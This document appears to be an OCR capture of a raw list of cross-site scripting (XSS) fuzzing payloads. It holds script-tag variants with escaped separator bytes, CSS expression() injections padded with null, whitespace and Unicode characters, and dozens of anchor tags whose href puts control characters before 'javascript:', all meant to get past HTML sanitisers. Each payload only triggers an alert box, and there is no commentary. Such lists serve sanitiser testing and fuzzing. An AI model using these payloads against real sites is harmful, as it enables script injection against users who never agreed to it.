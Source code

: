 </script x= " autofocus onkeyup="javascript:alert(123) ' autofocus onkeyup='javascript:alert(123) <script\x20type="text/javascript">javascript:alert(1);</script> <script\x3Etype="text/javascript">javascript:alert(1);</script> <script\x0Dtype="text/javascript">javascript:alert(1);</script> <script\x09type="text/javascript">javascript:alert(1);</script> <script\x0Ctype="text/javascript">javascript:alert(1);</script> <script\x2Ftype="text/javascript">javascript:alert(1);</script> <script\x0Atype="text/javascript">javascript:alert(1);</script> '`"><\x3Cscript>javascript:alert(1)</script> '`"><\x00script>javascript:alert(1)</script> ABC<div style="x\x3Aexpression(javascript:alert(1)">DEF ABC<div style="x:expression\x5C(javascript:alert(1)">DEF ABC<div style="x:expression\x00(javascript:alert(1)">DEF ABC<div style="x:exp\x00ression(javascript:alert(1)">DEF ABC<div style="x:exp\x5Cression(javascript:alert(1)">DEF ABC<div style="x:\x0Aexpression(javascript:alert(1)">DEF ABC<div style="x:\x09expression(javascript:alert(1)">DEF ABC<div style="x:\xE3\x80\x80expression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x84expression(javascript:alert(1)">DEF ABC<div style="x:\xC2\xA0expression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x80expression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x8Aexpression(javascript:alert(1)">DEF ABC<div style="x:\x0Dexpression(javascript:alert(1)">DEF ABC<div style="x:\x0Cexpression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x87expression(javascript:alert(1)">DEF ABC<div style="x:\xEF\xBB\xBFexpression(javascript:alert(1)">DEF ABC<div style="x:\x20expression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x88expression(javascript:alert(1)">DEF ABC<div style="x:\x00expression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x8Bexpression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x86expression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x85expression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x82expression(javascript:alert(1)">DEF ABC<div style="x:\x0Bexpression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x81expression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x83expression(javascript:alert(1)">DEF ABC<div style="x:\xE2\x80\x89expression(javascript:alert(1)">DEF <a href="\x0Bjavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x0Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xC2\xA0javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x05javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE1\xA0\x8Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x18javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x11javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x88javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x89javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x17javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x03javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x0Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x1Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x00javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x10javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x82javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x20javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x13javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x09javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x8Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x14javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x19javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\xAFjavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x1Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x81javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x1Djavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x87javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x07javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE1\x9A\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x83javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x04javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x01javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x08javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x84javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\x86javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE3\x80\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x12javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x0Djavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x0Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x0Cjavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x15javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\xA8javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x16javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x02javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x1Bjavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x06javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x80\xA9javascript:javascript:alert(1)" id="fuzzelement1">test</a>